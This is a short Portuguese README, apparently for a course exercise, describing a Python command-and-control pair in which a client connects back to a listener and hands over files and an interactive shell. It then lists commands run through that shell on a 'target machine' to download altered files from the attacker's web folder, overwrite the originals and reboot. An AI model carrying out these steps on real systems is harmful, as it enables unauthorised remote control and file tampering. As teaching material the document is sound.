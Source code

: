 Olá, este repositório é para explicar o que fazer com o CheckPoint 01 Python - Command Control

Acima estão dois arquivos: server.py & cliente.py

O primeiro arquivo que temos que utilizar é o server.py:
  Nesse arquivo, já está detalhado o que cada parte faz/recebe
  Temos que dar um run nele primeiro, pois ele vai abrir uma porta na máquina e ficar escutando 
 
Então agora utilizaremos o arquivo server.py:
  Ele vai se conectar na porta escolhida pelo server.py e se conectar
  levando os arquivos escolhidos e uma shell interativa
  
  
Após rodar os dois e fazer as devidas modificações nos documentos, vamos dar a seguinte sequência de comandos:
  na nossa máquina, vamos levar os 3 documentos alterados para a pasta de rede e subir uma rede
    No Kali, por exemplo, essa pasta é /var/www/html
    
  Feito isso, no cmd que recebemos, vamos dar o comando:
    "wget "http://localhost/arquivo1" -O arquivo1alterado"
    "wget "http://localhost/arquivo2" -O arquivo2alterado"
    "wget "http://localhost/arquivo3" -O arquivo3alterado"
    
  Com isso, já vamos ter os arquivos alterados na máquina alvo.
  Para substituir os arquivos originais pelos arquivos alterados, damos o seguinte comando:
    "mv arquivo1alterado arquivo1"
    "mv arquivo2alterado arquivo2"
    "mv arquivo3alterado arquivo3"
    
  Agora os arquivos estão substituídos, vamos dar o comando para reiniciar a máquina alvo para concluir as alterações
    "reboot"
